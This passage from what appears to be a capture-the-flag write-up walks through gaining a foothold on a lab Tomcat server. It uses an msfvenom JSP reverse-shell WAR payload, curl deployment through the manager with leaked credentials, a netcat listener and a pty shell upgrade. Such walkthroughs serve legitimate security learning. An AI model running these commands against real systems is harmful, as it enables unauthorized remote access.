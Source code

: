 If we check the results from nmap we see there is something being served at port `8080`. There we see a couple of links to a `manager_webapp` and a `host-manager_webapp`.


If we try loggin in with the credentials we found exploiting LFI, we see we can only log to the `host-manager_webapp`.

![](https://i.imgur.com/nn8DOHZ.png)

With access we have to the host manager GUI, we can try to create a new virtual host where we can try to upload a payload to get us a foothold on this machine.

We need to create a payload, for that we'll use `msfvenom` and to create a virtual host will use the commandline with the credentials we found earlier.

Let's create our payload first, we need to create a payload of WAR type:

> From Wikipedia: In software engineering, a WAR file (Web Application Resource[1] or Web application ARchive[2]) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.

to create our payload we use msfvenom as follows:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR_IP] LPORT=[DESIRED_PORT] -f war > payload.war`

Once we have our payload generated, we need to upload it to the server as a new virtual host. We can do that as follows using `curl`:

`curl -u 'tomcat':'$3cureP4s5w0rd123!' -T payload.war 'http://10.10.10.194:8080/manager/text/deploy?path=/tzero86'
`
With this command we are creating a new accessible location, in my case `/tzero86`.

![](https://i.imgur.com/3Dc0aui.png)


Ok so before we try to connect to this payload we sent to the server, let's fire up a netcat listener on the port you specified when creating the payload, in my case `nc -lnvp 2112`.

Now we try and execute the payload using `curl` again:

`curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/tzero86/`

Remember the location is whatever name you entered when sending the payload as a new virtual host.

![](https://i.imgur.com/DOXvNlB.png)

And if we look at our listener, we do have a connection:

![](https://i.imgur.com/LQCPN7v.png)

As you can see the shell we got is pretty basic and not much of an interactive one. We could try call python tty.


`python3 -c 'import pty; pty.spawn("/bin/bash")'`

that looks a bit better.
